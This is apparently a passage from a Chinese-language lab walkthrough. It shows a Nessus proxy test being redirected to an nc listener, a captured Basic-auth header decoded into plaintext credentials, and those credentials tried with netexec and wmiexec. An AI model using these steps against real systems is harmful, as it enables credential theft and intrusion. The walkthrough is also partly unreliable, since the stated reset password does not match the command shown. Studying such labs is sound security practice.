 随后`kali`监听

```c
nc -lvp 8080                                                   
listening on [any] 8080 ...
```

点击`nessus`上的`Test Proxy Server` ，随后在`Kali`中可以接收到信息

```c
nc -lvp 8080                          
listening on [any] 8080 ...
: inverse host lookup failed: Unknown host
connect to [192.168.56.4] from (UNKNOWN) [] 49733
CONNECT plugins.nessus.org:443 HTTP/1.1
Proxy-Authorization: Basic bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==
Host: plugins.nessus.org
Connection: keep-Alive
User-Agent: Nessus/10.7.3
Content-Length: 0
Proxy-Connection: Keep-Alive
```

其中的 `Proxy-Authorization: Basic bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==` 非常可疑，看着像是`Base64` 

```c
echo 'bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==' | base64 -d
nesus:Z#JuXH$ph-;v@,X&mV)
```

这密码不知道准不准确…

使用`netexec`来测试`smb` ，密码正确提示已过期？

```c
netexec smb  -u nesus -p 'Z#JuXH$ph-;v@,X&mV)'
SMB           445    NESSUS           [*] Windows Server 2022 Build 20348 x64 (name:NESSUS) (domain:Nessus) (signing:False) (SMBv1:False)
SMB           445    NESSUS           [-] Nessus\nesus:Z#JuXH$ph-;v@,X&mV) STATUS_PASSWORD_EXPIRED 
```

尝试用`wmiexec`执行命令，还是提示密码过期

```c
wmiexec.py nesus:'Z#JuXH$ph-;v@,X&mV)'@
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] SMB SessionError: code: 0xc0000071 - STATUS_PASSWORD_EXPIRED - The user account password has expired.
```

> PS:我之后手动重置了一下密码才能继续，修改密码为`123456`
> 

可以发现不存在 `STATUS_PASSWORD_EXPIRED` 了

```c
netexec smb 192.168.56.8 -u nesus -p Aa118811             
SMB         192.168.56.8    445    NESSUS           [*] Windows Server 2022 Build 20348 x64 (name:NESSUS) (domain:Nessus) (signing:False) (SMBv1:False)
SMB         192.168.56.8    445    NESSUS           [+] Nessus\nesus:123456
```
